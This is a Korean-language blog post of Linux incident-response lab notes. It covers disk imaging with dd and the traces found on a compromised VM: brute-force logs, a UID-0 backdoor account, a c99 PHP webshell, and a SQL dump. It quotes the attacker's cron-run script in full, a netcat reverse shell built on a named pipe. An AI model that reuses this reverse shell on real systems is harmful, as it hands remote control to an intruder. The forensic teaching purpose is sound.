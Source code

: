 ```yaml
---
layout : post
title : 침해사고분석 - Linux
---
```


### Linux Image Dump

> ex) dd if=/dev/sda of=/mnt/hgfs/LinuxImage/linux.dd

### 실습

>**Victim IP**
>
>192.168.171.188
>
>**Attacker IP**
>
>192.168.171.1, 192.168.171.146, 192.168.171.182
>
><br>
>
>**crontab**
>
>/tmp/wow64.sh 쉘 스크립트 실행 등록
>
><br>
>
>**wow64.sh**
>
>#!/bin/bash
>
>mknod /tmp/backpipe p
>
>/bin/sh 0</tmp/backpipe | nc 192.168.171.1 5555 1>/tmp/backpipe
>
><br>
>
>**/etc/passwd**
>
>infosechack 계정 root도 아닌데 gid가 0
>
><br>
>
>**/var/log/auth.log**
>
>Nov 1 21:32:20 192.168.171.146
>
>ssh brute force attack
>
>Nov 1 21:41:02 192.168.171.1
>
>1. Windows SSH Client로 SSH 접속
>2. root로 로그인 성공
>3. infosechack useradd 됨
>4. 로그아웃 후 infosechack으로 다시 ssh 접속
>
><br>
>
>**/var/log/access.log**
>
>Nov 1 21:19:16
>
>192.168.171.182
>
>vega 사용(brute force 툴)
>
>192.168.171.146
>
>w3af 사용(웹앱 공격 툴)
>
>/morningmall/m_login_ok.php
>
>hydra 사용(brute force 툴) 
>
><br>
>
>**/var/log/apache2/access.log**
>
>Nov 1 23:29:02 192.168.171.1
>
>c99_madnet.php 접근(php webshell)
>
>코드 난독화
>
>base64 php decoding
>
><br>
>
>**/var/www/morningmall/dump_192.168.171.188_mysql_02-11-2014-00-07-10.sql**
>
>2014-11-02 00:07:10
>
>sql 덤프